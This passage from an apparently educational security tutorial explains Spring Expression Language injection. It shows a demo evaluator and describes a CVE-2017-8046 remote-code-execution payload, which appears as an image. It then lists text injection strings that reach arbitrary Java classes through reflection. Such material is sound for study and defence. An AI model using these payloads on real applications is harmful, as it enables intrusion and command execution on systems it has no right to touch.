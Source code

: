 Next compile the code (if you don't have `javac` installed, install `sudo apt install default-jdk`):

```java
javac -cp commons-lang3-3.9.jar:spring-core-5.2.1.RELEASE.jar:spring-expression-5.2.1.RELEASE.jar:commons-lang3-3.9.jar:commons-logging-1.2.jar:. Main.java
```

Execute the application with:

```java
java -cp commons-lang3-3.9.jar:spring-core-5.2.1.RELEASE.jar:spring-expression-5.2.1.RELEASE.jar:commons-lang3-3.9.jar:commons-logging-1.2.jar:. Main
Enter a String to evaluate:
{5*5}
[25]
```

Note how in the previous example the term `{5*5}` was **evaluated**.

## **CVE Example**

From you have already see I bet you know what is coming. If developers are using SpEL with user input, we need to create payload with injection. Let’s check one that allow remote code execution (RCE). It was created as part of exploit for [CVE-2017–8046](https://github.com/m3ssap0/SpringBreakVulnerableApp).

![Image for post](https://miro.medium.com/max/1933/1\*qyl6ZLeJOyXmxmdqMcT8tg.png)

It consist of 3 parts:

* black color — copy result of command execution directly to output stream of HTTP request
* red color — get Java Runtime and execute command in system
* blue color — String containing command: `cmd /c dir`. To make it more robust individual characters of command are decoded from numbers.

Result of executing it:

![Image for post](https://miro.medium.com/max/982/1\*APSYwU3qbw0rNJAd2xhdNA.png)

## Payloads

### Basic actions

```bash
#Basic string operations examples
{"a".toString()}
[a]

{"dfd".replace("d","x")}
[xfx]

#Access to the String class
{"".getClass()}
[class java.lang.String]

#Access ro the String class bypassing "getClass"
#{""["class"]}

#Access to arbitrary class
{"".getClass().forName("java.util.Date")}
[class java.util.Date]

#List methods of a class
{"".getClass().forName("java.util.Date").getMethods()[0].toString()}
[public boolean java.util.Date.equals(java.lang.Object)]
```